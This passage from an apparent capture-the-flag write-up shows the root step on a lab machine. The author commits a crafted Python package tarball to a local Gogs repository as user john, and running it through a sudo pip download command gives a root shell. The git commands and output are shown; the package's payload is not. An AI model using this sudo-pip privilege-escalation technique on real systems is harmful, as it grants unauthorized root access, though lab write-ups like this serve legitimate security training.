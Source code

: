 Now, we can just upload the `tar.gz` file to a repository on`gogs` using `john` credentials and then execute the command:

- Note that in order to run the `sudo pip download` , it only accepted a `tar.gz` file downloaded from the port `3000` of the localhost, so we needed to upload the `tar.gz` file to the `gogs`

```python
john@only4you:/var/tmp/tested_repo$ cp ../this_is_fine_wuzzi-0.0.1.tar.gz xploited.tar.gz
john@only4you:/var/tmp/tested_repo$ git add .
john@only4you:/var/tmp/tested_repo$ git commit -m "exp"
[master 675d20a] exp
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 xploited.tar.gz
john@only4you:/var/tmp/tested_repo$ git push
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 2.94 KiB | 2.94 MiB/s, done.
Total 3 (delta 0), reused 0 (delta 0)
Username for 'http://127.0.0.1:3000': john
Password for 'http://john@127.0.0.1:3000': 
To http://127.0.0.1:3000/john/tested_repo.git
   947c79a..675d20a  master -> master
```

I uploaded the `tar.gz` via `git` command as the web application for the `gogs` was too buggy over the tunneling, then executing the command, resulted in `root` :

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_14.png)


